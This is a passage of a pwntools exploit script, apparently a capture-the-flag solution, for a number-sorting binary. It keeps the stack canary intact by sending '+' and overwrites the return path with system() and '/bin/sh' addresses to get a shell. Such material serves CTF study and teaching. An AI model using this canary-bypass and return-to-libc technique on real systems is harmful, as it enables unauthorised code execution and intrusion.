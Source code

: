 ```
print "system addr: " + hex(system_addr) + " (Int: " + str(system_addr) + " )"


p.recvuntil('How many numbers do you what to sort :')


p.sendline('' + str(HOW_MANY_NUM_TO_SORT))


for i in range(HOW_MANY_NUM_TO_SORT):
	p.recvuntil('number : ')
	if i == 24:	#Reading the stack canary's value
		p.sendline('+')
	elif 25 <= i <= 32:
		p.sendline(str(system_addr))	# Overwriting the pushed ebx, esi, and edi values with system_addr keeps the stack canary's value unchanged.
	elif 33 <= i <= 34:
		p.sendline(str(binsh_addr))	# Overwriting <system>'s return address with binsh_addr keeps the stack canary's value unchanged..
	else:
		p.sendline('0')


p.interactive()
```



